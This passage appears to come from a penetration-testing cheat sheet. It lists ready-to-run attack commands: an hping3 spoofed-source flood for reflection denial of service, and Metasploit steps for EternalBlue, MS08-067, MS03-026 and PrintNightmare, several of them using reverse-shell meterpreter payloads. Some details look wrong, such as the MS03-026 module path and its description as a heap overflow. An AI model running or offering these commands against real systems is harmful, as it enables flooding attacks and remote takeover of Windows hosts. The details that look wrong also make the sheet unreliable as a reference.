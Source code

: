 #### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

### Exploits

#### MS17-010 (EternalBlue)

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in Microsoft's implementation of the SMB protocol that could allow remote code execution. This exploit was used in the WannaCry ransomware attack.

#### MS08-067 (Conficker Worm)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in the Server service's handling of RPC requests, allowing for remote code execution.

#### MS03-026 (Blaster Worm)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/ms03_026_dcom
    set RHOST <target_ip>
    run
    ```
* **Description:** A critical vulnerability in the RPC interface that allowed remote code execution. Exploits a heap overflow in the RPCSS service to execute arbitrary code with SYSTEM privileges.

#### PrintNightmare (CVE-2021-34527)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/printnightmare
    set RHOSTS <target_ip>
    exploit
    ```
* **Description:** Exploits the Windows Print Spooler service via SMB for remote code execution.

